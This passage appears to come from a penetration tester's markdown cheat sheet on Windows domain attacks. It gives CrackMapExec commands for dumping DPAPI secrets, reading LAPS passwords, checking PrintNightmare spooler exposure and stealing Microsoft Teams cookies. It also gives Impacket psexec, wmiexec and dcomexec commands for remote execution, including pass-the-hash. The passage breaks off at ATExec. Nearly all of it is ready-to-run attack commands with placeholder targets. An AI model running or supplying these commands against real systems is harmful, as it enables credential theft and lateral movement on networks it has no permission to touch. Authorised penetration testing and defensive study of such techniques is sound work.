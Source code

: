     ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --dpapi
    ```
*   **Defeating LAPS:** If LAPS is used inside the domain, it can be hard to use CrackMapExec to execute a command on every computer on the domain. Therefore, a new core option has been added `--laps`! If you have compromised an account that can read

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --laps
    ```
*   **Print Nightmare Spooler, WebDav Check:** If enabled, run @cube0x0 or Mimikatz from @gentilkiwi to gain SYSTEM on workstations/servers up to date

    ```bash
    crackmapexec smb <target_ip> -u <user_name> -p '<password>' -M spooler
    ```
*   **Steal Microsoft Teams Cookies:** You need at least local admin privilege on the remote target

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M teams_localdb
    ```

#### \[\[Impacket]]

**\[\[Impacket-PSExec]]/\[\[Impacket-SMBExec]]**

*   **Connect via PSExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-psexec <domain>/<username>:'<password>'@<target_ip>
    impacket-psexec -hashes <LM:NT> <username>@<target_ip>
    ```

**\[\[Impacket-WMIExec]]**

*   **Connect via WMIExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-wmiexec <domain>/<username>:'<password>'@<target_ip>
    impacket-wmiexec -hashes LM:NT <username>@<target_ip>
    ```

**\[\[Impacket-DCOMExec]]**

*   **Connect via DCOMExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-dcomexec <domain>/<username>:'<password>'@<target_ip>
    impacket-dcomexec -hashes <LM:NT> <username>@<target_ip>
    ```

**\[\[Impacket-ATExec]]**

*   **Connect via ATExec:**
